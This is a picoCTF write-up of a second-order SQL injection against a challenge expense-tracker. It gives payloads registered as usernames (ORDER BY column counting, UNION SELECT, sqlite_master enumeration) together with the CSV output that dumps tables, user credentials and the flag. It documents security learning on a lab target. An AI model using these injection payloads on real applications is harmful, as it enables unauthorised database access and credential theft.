

# CTF Writeup — ORDER ORDER

## 📌 Overview

* Platform: picoCTF
* Difficulty: Hard
* Objective: Flag capture via database exploitation

The target is a web-based "Expense Tracker" application that allows users to register, log in, add expenses, and generate downloadable CSV expense reports. The application's report-generation feature builds a SQL query using the authenticated user's stored username without proper sanitization, resulting in a second-order SQL injection vulnerability. This flaw was exploited to enumerate the underlying SQLite database and extract a flag stored in a hidden table.

---

## 🔍 Enumeration

### 1. Initial Reconnaissance

The application presented a login and signup flow. Standard login was tested first:

* Login attempt: `username=test&password=test&action=` → `Invalid username or password`
* Signup attempt: `username=test&email=test%40test.com&password=test&action=` → `Signup successful! Please login.`
* Login with the newly created account: `username=test&password=test&action=` → `Login successful!`

Post-authentication, the following navigation options became available:

```
<li><a href="/dashboard">Dashboard</a></li>
<li><a href="/expenses">Expenses</a></li>
<li><a href="/inbox">Inbox</a></li>
<li><a href="/logout">Logout</a></li>
```

The **Dashboard** page contained no actionable content. The **Expenses** page allowed creation of expense entries with a description, amount, and date field.

### 2. Testing for SQL Injection in Expense Fields

Standard SQL injection payloads were tested directly in the expense description, amount, and date fields:

```python
'
"
`
--  
/*test*/
/*! */
```

None of these produced observable errors or anomalies when submitted directly. However, expenses are displayed in registration order, which made it possible to observe injected content indirectly by submitting it through the date field:

```python
description=test_d&amount=test_a&date=test_d
```

This confirmed that special characters were being stored and rendered without immediately triggering an error, but no direct injection point was confirmed at this stage in the amount or date fields.

### 3. Report Generation and Inbox

The application includes a report-generation feature, with generated reports listed in the **Inbox**:

| Subject | Report | Date | Actions |
| --- | --- | --- | --- |
| **Expense report as of 24/07/2026, 18:19:09** | **./reports/report_test_1784917149.csv** | **2026-07-24 18:19:09.505901** | **Download** |

The filename `report_test_...csv` initially appeared to reference an expense description, but this was inconsistent given the number of expenses already created. To confirm, a second user (`test1:test`) was registered and used to generate a report with no expenses present:

| Subject | Report | Date | Actions |
| --- | --- | --- | --- |
| **Expense report as of 24/07/2026, 18:22:19** | **./reports/report_test1_1784917339.csv** | **2026-07-24 18:22:19.734030** | **Download** |

This confirmed that the report filename is derived from the **username**, not expense data — indicating the report-generation logic incorporates the stored username directly, which is the mechanism later confirmed to be vulnerable to second-order SQL injection.

---

## 💥 Exploitation

* Type: Second-Order SQL Injection
* Location: Report-generation logic, which embeds the stored `username` value into a backend SQL query without sanitization
* Impact: Full read access to the underlying SQLite database, including credential data and a hidden flag table

### Identifying the Injection

Since the report filename reflected the username, and the challenge hint referenced SQL, a new user was registered using a single-quote character in the username field:

`'test:test`

Generating a report for this account produced a database error:

| Subject | Report | Date | Actions |
| --- | --- | --- | --- |
| **Report generation failed. Cause near "test": syntax error** | | | |

This confirmed that the username is inserted directly into a SQL query executed during report generation — the injection is "second-order" because the malicious input is stored at registration time and only triggers the vulnerable query later, during report generation.

### Determining Column Count

Using the `ORDER BY` technique (as referenced from HTB's SQL Injection Fundamentals module), a series of usernames were registered to incrementally determine the number of columns in the underlying query:

```python
' order by 1-- -:test
' order by 2-- -:test
' order by 3-- -:test
' order by 4-- -:test   # Error triggered
```

The `order by 4` attempt produced:

| Subject | Report | Date | Actions |
| --- | --- | --- | --- |
| **Report generation failed. Cause 1st ORDER BY term out of range - should be between 1 and 3** | | **2026-07-24 18:37:31.006626** | **Download** |

This confirmed the query returns exactly **three columns**.

### Confirming UNION-Based Injection

A `UNION SELECT` payload was registered as a username to confirm the injection point could be leveraged for data extraction:

```python
' UNION select 1,2,3-- -:test
```

This generated a successful report:

| Subject | Report | Date | Actions |
| --- | --- | --- | --- |
| **Expense report as of 24/07/2026, 18:49:57** | **./reports/report_' UNION select 1,2,3-- -_1784918997.csv** | **2026-07-24 18:49:57.390287** | **Download** |

The downloaded CSV confirmed the injected values were reflected directly in the report output:

```
description,amount,date
1,2,3
```

An initial attempt to fingerprint the database using a MySQL-specific function failed:

```python
' UNION select 1,@@version,3-- -   # Report generation failed. Cause unrecognized token: "@"
```

This ruled out MySQL. SQLite was tested next and succeeded:

```python
' UNION SELECT 1,sqlite_version(),3-- -:test
```

CSV output:

```
description,amount,date
1,3.31.1,3
```

This confirmed the backend database as **SQLite version 3.31.1**.

### Database Enumeration

With confirmed UNION-based injection into a known SQLite backend, the `sqlite_master` table was queried to enumerate all tables:

```python
' UNION SELECT 1,name,3 FROM sqlite_master WHERE type='table'-- -
```

Result:

```
description,amount,date
1,aDNyM19uMF9mMTRn,3
1,expenses,3
1,inbox,3
1,reports,3
1,sqlite_sequence,3
1,users,3
```

The table `aDNyM19uMF9mMTRn` stood out as non-standard and was investigated further. Its schema was retrieved:

```python
' UNION SELECT 1,sql,3
FROM sqlite_master
WHERE name='aDNyM19uMF9mMTRn'-- -
```

Result:

```
description,amount,date
1,"CREATE TABLE aDNyM19uMF9mMTRn (
                name TEXT PRIMARY KEY,
                value TEXT NOT NULL
            )",3
```

The `users` table schema was also retrieved:

```python
' UNION SELECT 1,sql,3
FROM sqlite_master
WHERE name='users'-- -
```

Result:

```
description,amount,date
1,"CREATE TABLE users (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                username TEXT UNIQUE NOT NULL,
                email TEXT NOT NULL,
                password TEXT NOT NULL
            )",3
```

### Data Extraction

The `users` table was dumped to confirm data access, returning only the credentials of the accounts created during testing (usernames were the injection payloads themselves, so no external credentials were exposed):

```python
' UNION SELECT username,password,email
FROM users-- -
```

Finally, the suspicious table `aDNyM19uMF9mMTRn` was dumped directly, revealing the flag:

```python
' UNION SELECT name,value,3
FROM aDNyM19uMF9mMTRn-- -
```

Result:

```
description,amount,date
flag,<flag>,3
```

---

## Attack Flow



---

## 🧠 Lessons Learned

* **Second-order injection points are easy to miss**: direct testing of visible input fields (expense description, amount, date) yielded nothing. The actual vulnerability lived in a completely different feature (report generation) that consumed previously stored data (the username) without re-validating it.
* **Filenames and metadata can leak logic**: noticing that the report filename matched the username — not the expense data — was the key pivot point that redirected the entire testing approach.
* **Systematic column enumeration (`ORDER BY` / `UNION SELECT`) remains reliable** even against non-standard applications, and is a fast way to confirm both the presence of injection and the query's column count.
* **Engine fingerprinting should not assume MySQL by default**: the initial `@@version` attempt failed, prompting a pivot to `sqlite_version()`, which succeeded and confirmed SQLite as the backend.
* **Real-world relevance**: applications that trust "their own" stored data (like a username set at registration) without sanitizing it before reuse in later queries are a common source of second-order SQL injection in production systems, particularly in reporting, auditing, or export features.

---

## 🧩 Tools Used

* Burp Suite (or equivalent intercepting proxy, for request manipulation) — *inferred from the workflow of intercepting and modifying registration/report requests; not explicitly named in the notes*
* Manual SQL injection techniques (`ORDER BY`, `UNION SELECT`)
* SQLite system tables (`sqlite_master`, `sqlite_version()`) for enumeration

---

## ⚠️ Notes

* Flags are intentionally omitted from the body where possible; the flag appears once in the exploitation walkthrough as it was the direct result of the final query and is standard for picoCTF writeups to display as proof of completion — remove if you prefer strict omission.
* This writeup focuses on methodology and learning.
